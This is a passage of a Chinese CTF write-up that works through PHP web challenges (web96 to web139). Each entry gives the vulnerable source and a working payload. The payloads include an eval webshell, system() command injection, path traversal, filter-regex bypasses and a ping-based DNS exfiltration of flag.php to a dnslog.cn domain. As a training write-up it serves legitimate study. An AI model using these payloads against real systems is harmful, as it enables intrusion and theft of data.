    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


} 
```

进行比较，如果传入的参数等于flag.php就执行die

我们可以直接访问绝对路径

payload

```
?u=/var/www/html/flag.php
```

得到flag


---

### web97

```php

include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?> 
```

这题post传两个参数a和b

a不等于b，但是a和b的md5值相等

[MD5相关文档](https://www.wlhhlc.top/posts/16813/)

PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”**0E**”开头的，那么PHP将会认为他们相同，都是**0**。

所以我们可以利用数组

payload

```
post：
a[]=&b[]=
```

得到flag


---

### web98

```php
include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?>
```

小知识`  ? : ;`是三目运算符

第一行：如果存在get传参，则把post传参地址给get，可以简单理解为post覆盖了get

第四行：如果get参数`HTTP_FLAG`的值为flag，就读取文件，也就是输出flag

所以get随便传参，因为post会把get覆盖掉

post传入HTTP_FLAG=flag

payload

```
?a=a

post:
HTTP_FLAG=flag
```

得到flag


---

### web99

```
highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?> 
```

出现新的函数`array_push`、`in_array`和`file_put_contents`






这里in_array()函数在没有第三个值得时候会进行弱比较，也就是存在强制转换

payload

```
?n=1.php

post
content=<?php eval($_POST[1]);?>

```

然后蚁剑链接



得到flag


---

### web100

```php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}


?> 
```

一共需要传三个get参数，然后`$v0`是对三个参数的与的结果，了解一下`is_numeric()`函数

**is_numeric()** 函数用于检测变量是否为数字或数字字符串
 如果指定的变量是数字和数字字符串则返回 TRUE，否则返回 FALSE



但php有运算的优先级，也就是`&&> = > and`

所以这段代码就是先执行`$v0=is_numeric($v1)`

and后面的无论真假都可以运行

所以对v1传入数字就可以，

`if(!preg_match("/\;/", $v2))`

想要过这个就需要v2里没有分号

相同的下一个if就需要v3里有分号

再看最后一句

`eval("$v2('ctfshow')$v3")`

这里他给定了一个参数，我们可以配合v3把参数注视掉

根据提示

```
flag in class ctfshow; 
```

方法一：查看文件

payload

```
?v1=1&v2=system("ls")/*&v3=*/;
?v1=1&v2=system("cat ctfsh*")/*&v3=*/;
```

方法二：调用类

```
?v1=21&v2=var_dump($ctfshow)/*&v3=*/;
```

最后得到的flag 

```
flag_is_ce049b670x2dc58a0x2d46330x2d9f180x2d42c5d1e55d8f
```

将0x2d需要替换成`-`

发现少了一位，对最后一位进行爆破

---

### web101

```php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}

?> 
```

前面还是一样，对v2和v3的要求变多了

要求v2只能是字母和部分符号

这题考察[类反射](https://blog.csdn.net/joshua317/article/details/120186644)

```
PHP Reflection API是PHP5才有的新功能，它是用来导出或提取出关于类、方法、属性、参数等的详细信息，包括注释。
$class = new ReflectionClass(‘ctfshow’); // 建立 Person这个类的反射类
$instance = $class->newInstanceArgs($args); // 相当于实例化ctfshow类
```

payload为

```
?v1=1&v2=echo new ReflectionClass&v3=;
```

得到flag


---

### web102

```php

highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}


?> 
```

这里换成了判断v2是不是数字

然后出现了两个新函数


这里对`is_numeric`函数进行补充一点，如果字符串中含有一个e代表科学计数法，也可返回true

首先，get传参v2和v3，post传参v1；if中需要v4为真才能往下执行，而v4要为真就是v2传的参数要

为数字或者数字字符串，同时v2也是我们要写入的webshell

 为了让v2为数字或者数字字符串，我们可以先把我们的webshell转换为base64编码，再把base64

编码转换为16进制

```php
<?php

$b = base64_encode('<?=`tac *`;');
$b = str_replace("=", "", $b);
echo "base64加密后:" . $b . "\n";
$v2 = call_user_func('bin2hex', $b);
echo "16进制形式:" . $v2 . "\n";
var_dump(is_numeric($v2));


```



所以我们构造出来的经过base64加密，然后在转16进制的数只能包含数字和e

由于v2是从第三位开始取值，所以要在v2数字前面加上00

构建命令

```
?v2=00504438395948526859794171594473&v3=php://filter/write=convert.base64-decode/resource=1.php

post:
v1=hex2bin
```

访问1.php得到flag


---

### web103

```php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}

?> 
```

和上一题一样，这次对于$str多过滤了php，但是我们上一题的v2是经过base64编码的所以不存在问题

继续套用

```
?v2=00504438395948526859794171594473&v3=php://filter/write=convert.base64-decode/resource=1.php

post:
v1=hex2bin
```

访问1.php得到flag


---

### web104

```php
highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}


?> 
```

对比v1和v2的sha1值

sha1()函数无法处理数组类型，会返回NULL

构建payload

```
?v2[]=1

post
v1[]=1
```

得到flag


---

### web105

```php
highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);

?> 
```

```php
例如:
foreach($ary as $key=>$value){     //$ary的键名赋给$key，键值赋给$value
	$$key=$value;    //把键值赋给$$key
```

这里利用的是[变量覆盖](https://blog.csdn.net/qq_45089570/article/details/104858285)，关键点在$$key=$$value，这里把$key的值当作了变量

```
例如 $key=flag  则$$key=$flag
```

这里一共有三个变量，$error、$suces和$flag；这里通过die($error)或者die($suces)都可以输出flag，所以有两个payload
 **第一种：**
 通过die($error)输出flag

首先我们把$flag的值传给$1，接着再把$1的值传给$error，

$error的值就是flag，再通过if判断die输出就是flag

 例如

$flag=ctfshow{xxxxx}，

?1=flag，

通过第一个for循环，

也就是$1=$flag，

$1=ctfshow{xxxxx}，

接着再通过第二个for循环，

$error=$1，

此时$error=ctfshow{xxxxx}

```
?1=flag

post:
error=1
```


**第二种：**
 通过die($suces)输出flag

首先我们把flag的值传给suces变量，接着再把flag的值给置空，

已达到下面if条件为0不执行的目的，往下执行，

die($suces)即可把flag输出

```
?suces=flag&flag=
```


---

### web106

```php
highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}


?> 
```

典型的值不相等sha1相等，使用数组绕过

payload

```
?v2[]=1

post
v1[]=2
```

得到flag


---

### web107

```php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }

}


?> 
```

有一个新函数 parse_str


例如

```php
$a = "name=freedom&age=666";
parse_str($a,$b);
echo $b['name']."\n";
echo $b['age'];

#输出结果
//freedom
//666

如果$a为空，那么$b['name']的输出也为空就是null
```

知道md5无法处理数组，如果传入数组返回结果为null

那么等式成立

构建payload

```
?v3[]=

post
v1=
```

得到flag


---

### web108

```php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?>
```

出现几个新函数

```
ereg() 
函数搜索由指定的字符串，如果发现返回true，否则返回false。字母区分大小写

strrev() 
函数反转字符串。

intval() 
函数用于获取变量的整数值
```

%00可以截断ereg()函数的搜索，正则表达式只会匹配%00之前的内容；

0x36d的十进制为877，

对877a进行字符串的反转得到a778

intval()函数取整数部分得到877

payload

```
?c=a%00778
```

得到flag


---

### web109

```php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?> 
```

这里传入两个参数，v1和v2

两个参数都要传入字母，然后需要执行echo new $v1($v2());

也就是建立一个反射类，就像101题提到的

建立new ReflectionClass

```
Exception 
处理用于在指定的错误发生时改变脚本的正常流程，是php内置的异常处理类

ReflectionClass 或者 ReflectionMethod 
都为常用的反射类，可以理解为一个类的映射
```

这三个都是可以用的

payload

```
?v1=ReflectionClass&v2=system('ls')

?v1=ReflectionClass&v2=system('cat fl36dg.txt')
```

得到flag


---

### web110

```php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?> 
```

这里正则进行了匹配，不能存在符号，所以就不能再用上题的方法

我们可以使用FilesystemIterator文件系统迭代器来进行利用，


通过新建FilesystemIterator，使用getcwd()来显示当前目录下的文件结构


payload

```
?v1=FilesystemIterator&v2=getcwd  //得到文件名
```

直接访问fl36dga.txt得到flag


---

### web111

```php

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
    

}

?> 
```

这题用了一个变量覆盖，v1要有ctfshow

然后执行getflag函数

会把v2的地址传给v1，接着再输出v1

从而调用全局变量GLOBALS

```
$GLOBALS

引用全局作用域中可用的全部变量 一个包含了全部变量的全局组合数组。变量的名字就是数组的键。
```

payload

```
?v1=ctfshow&v2=GLOBALS
```

得到flag


### web112

```php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 
```

简单介绍一下函数

is_file() 
函数检查指定的文件名是否是正常的文件


filter() 
函数用于对来自非安全来源的数据（比如用户输入）进行验证和过滤

绕过正则才能执行highlight_file语句来读取flag文件，

我们使用php伪协议

payload

```
?file=php://filter/resource=flag.php
```

得到flag


---

### web113

```php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

比上一题多过滤了filter

我们换一个伪协议

压缩流zlib://


payload

```
?file=compress.zlib://flag.php
```

得到flag


---

### web114

```php

error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

禁用了compress

但是没有禁用filter

可以继续用filter伪协议

payload

```
?file=php://filter/resource=flag.php
```

得到flag


---

### web115

```php
include('flag.php');
highlight_file(__FILE__);
error_reporting(0);
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
}
```

新函数str_replace


进行字符替换，不能出现0，0x，e，.和+

trim($num)移除字符串两侧的字符不能等于36


发现无法去除分页符%0c

payload

```
?num=%0c36
```

得到flag


---

### web123

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
} 

```

eval()函数会执行`$c`

$c和if判断需要的两个post

 在php中变量名只有数字字母下划线，被get或者post传入的变量名，如果含有`空格、+、[`则会被转化为`_`，所以按理来说我们构造不出`CTF_SHOW.COM`这个变量(因为含有`.`)

php中有个特性就是如果传入`[`，它被转化为`_`之后，后面的字符就会被保留下来不会被替换

payload

```
post：
CTF_SHOW=1&CTF[SHOW.COM=1&fun=echo $flag
```

---

### web125

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}

```

过滤了flag和echo关键字，

可以用highlight_file来显示文件，

flag在post中被🈲了，我们通过get来传参

**payload**

```
get：
?1=flag.php

post：
CTF_SHOW=1&CTF[SHOW.COM=1&fun=highlight_file($_GET[1])
```

得到flag


---

### web126

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
} 

```

这次正则匹配了一些关键字母

`$_SERVER['argv']`

```
`$_SERVER['argv'][0] = $_SERVER['QUERY_STRING']`
 query string是Uniform Resource Locator (URL)的一部分, 其中包含着需要传给web application的数据
```

所以如果我们get传入变量赋值语句，接着在post里面来执行这个赋值语句就可以完美绕过

payload

```
?$fl0g=flag_give_me;

post：
CTF_SHOW=1&CTF[SHOW.COM=1&fun=eval($a[0])
```

得到flag


---

### web127

```php
 <?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];
//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}
if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}
if($ctf_show==='ilove36d'){
    echo $flag;
} 

```

这里开启了`$_SERVER['QUERY_STRING']`，这里用了一个extract()函数

**extract()** 函数从数组中将变量导入到当前的符号表，使用数组键名作为变量名，使用数组键值作为变量值


举例就是`?a=2`，就会变成`$a=2`，这里`ctf_show`有个`_`需要构造，前面说过php中变量名只有数字字母下划线，被get或者post传入的变量名，如果含有`空格、+、[`则会被转化为`_`，这里空格没有被🈲，使用空格

payload

```
?ctf show=ilove36d
```

得到flag


---

### web128

```php
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}
function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
} 

```

还是这个函数`call_user_func`


**call_user_func()** 函数把第一个参数作为回调函数，其余参数都是回调函数的参数

这里对`$f1`进行了正则过滤，不能为数字和字母，这里可以使用gettext拓展，

`_() 等效于 gettext()`

```
php
<?php
echo gettext("1");
//输出结果：1

echo _("1");
//输出结果：1
```

因此`call_user_func('_','ctfshownb')` 返回的结果为ctfshownb，接下来到第二层`call_user_func`，找了一圈发现`get_defined_vars`函数可以使用

**get_defined_vars ( void ) : array** 函数**返回一个包含所有已定义变量列表的多维数组**，这些变量包括环境变量、服务器变量和用户定义的变量。


构建payload

```
?f1=_&f2=get_defined_vars
```

得到flag


---

### web129

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
} 

```


#### 一、直接文件包含

payload

```
?f=/ctfshow/../../../../../../../../../var/www/html/flag.php
```

得到flag


####  二、使用php伪协议读取

```
?f=php://filter/read=convert.base64-encode|ctfshow/resource=flag.php
```

得到flag


---

---

### web130

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }
    echo $flag;
} 

```

这题直接就ctfshow就过了，因为正则模式匹配不到，然后`stripos()`搜索字符串返回的值是0(因为ctfshow第一次出现的位置就是0下标)也跳过了if里的语句直接输出flag，所以payload为

```
post:
f=ctfshow
```

PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit
 回溯次数上限默认是 100 万。如果回溯次数超过了 100 万，preg_match 将不再返回非 1 和 0，而是 false

写一个脚本来发包

```python
import requests
url = "https://15c8cfe4-4667-4877-bb83-e106c5352578.challenge.ctf.show/"
data = {
    'f': '12345'*200000+'ctfshow'
}
res = requests.post(url=url,data=data)
print(res.text)

```

得到flag


---

### web131

```php
php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }
    echo $flag;
} 
```

这次加了string函数，用上题脚本改一下就可以，一样利用正则的回溯次数

```python
import requests
url = "https://a05eda50-8fbd-42d3-9b41-9814aeb04207.challenge.ctf.show/"
data = {
    'f': '12345'*200000+'36Dctfshow'
}
res = requests.post(url=url,data=data)
print(res.text)
```

得到flag


---

### web132


在robots.txt里看到提示admin


访问得到源码

```php
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];
    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
    }
} 
```

三个get参数，并且有个if判断条件；php运算符优先级 `||`优先级低于`&&`

所以我们只需要满足`username=admin`过第一个if条件，`code=admin`满足第二个if条件即可，payload为

```
?username=admin&code=admin&password=1
```

得到flag


---

### web133

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
} 

```

限制了一些命令执行语句并且还限制了6个字符

需要利用dns外带数据回来，利用网站http://www.dnslog.cn/

先拿到一个二级dns域名

tmq9jr.dnslog.cn

因为限制了6个字符

所以先执行$F

```
eval(substr($F,0,6)); 
截取执行$F的前六个字符。但是$F的值不变
```

所以构建一个

```
F=`$F`;
```

然后在后面拼接命令，将命令回显带到二级域名上

```
ping `cat flag.php | grep ctfshow | tr -cd "[a-z]"/"[0-9]"`.tmq9jr.dnslog.cn -c 1
```

看一下[ping命令](https://blog.csdn.net/qq_44159028/article/details/118152928)


因为二级域名带出的信息有限，所以要对带会的信息进行筛选，利用grep命令以及[tr命令](https://www.runoob.com/linux/linux-comm-tr.html)

构建payload

```
?F=`$F`; ping `cat flag.php | grep ctfshow | tr -cd "[a-z]"/"[0-9]"`.tmq9jr.dnslog.cn -c 1
```

得到flag


---

### web134

```php
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
} 

```

`parse_str()`函数和`extract()`函数，得出是变量覆盖

如果我们传入?_POST[a]=freedom

就会输出`array(1) { ["a"]=> string(6) "freedom" }`

再使用extract函数，就会变成`$a=freedom`

payload

```
?_POST[key1]=36d&_POST[key2]=36d
```

得到flag


---

### web135

```php
?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
  if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
} 

```

在web133基础上多🈲了很多函数，cp复制到能访问的文本就可以

payload

```
?F=`$F `;cp flag.php flag.txt
```

然后访问flag.txt

得到flag


---

### web136

```php
 <?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?> 
```

这里ban了大量函数和字符，不过在linux下还有一个命令tee

Linux tee命令用于读取标准输入的数据，并将其内容输出成文件

```
 用法:
 tee file1 file2 //复制文件
 ls|tee 1.txt //命令输出到1.txt文件中
```


首先查看一下根目录文件

```
?c=ls /|tee ls
```

接着访问ls进行下载


得到文件名称

然后将f149_15_h3r3 tee到flag

```
?c=cat /f149_15_h3r3|tee flag
```

访问flag得到flag


---

### web137

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}
call_user_func($_POST['ctfshow']); 

```

直接调用ctfshow类中的getFlag方法，这里利用[::](https://blog.csdn.net/niedongri/article/details/78653373)

payload

```
post:
ctfshow=ctfshow::getFlag
```

得到flag


---

### web138

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}
if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}
call_user_func($_POST['ctfshow']); 

```

在前一题基础上把冒号给ban了，但`call_user_func`支持传入数组形式

```
call_user_func(array($ctfshow, ‘getFlag’));
这时候会调用ctfshow中的getFlag方法
```

payload

```
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```

得到flag


---

### web139

```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?> 

```

进行盲注

